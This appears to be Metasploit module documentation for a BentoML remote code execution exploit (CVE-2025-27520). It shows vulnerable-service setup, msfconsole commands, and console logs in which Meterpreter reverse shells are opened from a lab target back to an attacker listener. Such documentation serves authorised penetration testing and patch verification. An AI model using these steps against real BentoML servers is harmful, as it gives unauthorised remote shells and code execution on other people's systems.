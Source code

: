 ## Vulnerable Application

A Remote Code Execution (RCE) vulnerability caused by insecure deserialization has been identified in the v1.4.2 of BentoML.
It allows any unauthenticated user to execute arbitrary code on the server.

The vulnerability affects:

    * 1.3.4 <= BentoML < 1.4.3

This module was successfully tested on:

    * BentoML 1.4.2 installed on Ubuntu 24.04


### Installation

1. `pip install -U bentoml==1.4.2`

2. Define APIs in a service.py file:

```python3
import bentoml


@bentoml.service(resources={"cpu": "2"})
class Summarization:
    @bentoml.api(batchable=True)
    def summarize(self, texts):
        return texts
```

3. `bentoml serve --host 0.0.0.0`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/bentoml_rce_cve_2025_27520`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options

###  ENDPOINT (optional)
Endpoint to use.


## Scenarios

### Python payload
```
msf > use exploit/linux/http/bentoml_rce_cve_2025_27520
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(linux/http/bentoml_rce_cve_2025_27520) > options

Module options (exploit/linux/http/bentoml_rce_cve_2025_27520):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   ENDPOINT                   no        Endpoint to use
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     3000             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                      no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python payload



View the full module info with the info, or info -d command.

msf exploit(linux/http/bentoml_rce_cve_2025_27520) > set target Python\ payload
target => Python payload
msf exploit(linux/http/bentoml_rce_cve_2025_27520) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.4.2 detected, which is vulnerable.
[*] Use /summarize as api endpoint.
[*] Sending stage (24772 bytes) to 192.168.56.16
[*] Expected error occurred.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:34930) at 2025-04-16 21:44:13 +0900

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer        : vul
OS              : Linux 6.8.0-56-generic #58-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 14 15:33:28 UTC 2025
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```

### Linux command
```
msf exploit(linux/http/bentoml_rce_cve_2025_27520) > set target Linux\ Command
target => Linux Command
msf exploit(linux/http/bentoml_rce_cve_2025_27520) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.4.2 detected, which is vulnerable.
[*] Use /summarize as api endpoint.
[*] Expected error occurred.
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.16:35272) at 2025-04-16 21:45:17 +0900

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.16
OS           : Ubuntu 24.04 (Linux 6.8.0-56-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
